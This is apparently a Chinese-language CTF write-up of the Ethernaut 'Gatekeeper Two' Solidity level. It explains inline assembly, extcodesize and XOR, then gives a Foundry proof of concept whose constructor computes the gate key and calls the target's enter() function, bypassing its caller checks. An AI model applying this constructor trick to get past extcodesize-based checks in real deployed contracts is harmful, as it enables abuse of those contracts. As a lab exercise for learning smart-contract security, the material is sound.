

## Gatekeeper_two

### 新知识点：

#### **内联汇编**：

绕过`solidity`语法，直接与EVM底层指令进行交互。

**Solidity**目前使用的内联汇编语言被称为 **Yul**。

**extcodesize(a)**是底层操作码，获取指定地址 `a` 上部署的智能合约代码的大小,用EOA调用`extcodesize`时，结果永远是0，对CA调用时，结果大于0。

#### **按位异或**：

当 `^` 出现在solidity代码的变量之间时，它是**按位异或运算符**。

```
5 ^ 3
把 5 转成二进制：0101
把 3 转成二进制：0011
逐位进行异或运算：相同为 0，相异为 1。
	0 1 0 1  
    0 0 1 1 
-------------
    0 1 1 0  (结果是二进制的 6)
```

**type(uint64).max** 表示 **`uint64` 数据类型所能存储的最大数值**。具体数值为 $2^{64} - 1$，（在十六进制下表现为 `0xffffffffffffffff`）。

###  目标：

依旧通过检查进入入口。

### 思路：

第二关涉及到了内联汇编的`extcodesize`，不能使用智能合约对它进行调用，但是与第一关相悖，只有使用构造函数才能同时满足这两个条件。`a = bytes8(keccak256(abi.encodePacked(msg.sender)))`中的`msg.sender`就是中间合约的地址，`uint64(a) ^ uint64(_gateKey) == type(uint64).max) `，这涉及到了按位异或的计算方法，异或运算有两个“黄金定律”：

1. **自己异或自己等于 0**：X ^ X = 0
2. **任何数异或 0 等于它本身**：X ^ 0 = X

根据这两个定律可以计算出`gatekey`。

### 源码：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

### poc：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";

interface ITarget{
    function enter(bytes8 _gateKey) external returns (bool);
}

// 0x02bd6515DDbDa0bdb18647f99C73011aAb1772A8
// bytes8(keccak256(abi.encodePacked(msg.sender))) = 970038a3fe5326e2
// uint64(bytes8(970038a3fe5326e2)) ^ uint64(_gateKey) == type(uint64).max

contract Middle_attack{
    ITarget target = ITarget(0xE25c54464f178dA5B5d5043306E4998b34270DD6);

     constructor(){

        bytes8 ans = bytes8(keccak256(abi.encodePacked(address(this))));
        // uint64(ans) ^ uint64(_gateKey) == type(uint64).max
        uint64 _gateKey = type(uint64).max ^ uint64(ans);
        target.enter(bytes8(_gateKey));
     }
}

contract Attack is Script{
    function run() external{

        vm.startBroadcast();
        Middle_attack middle_attack = new Middle_attack();

        vm.stopBroadcast();
    }
}
```


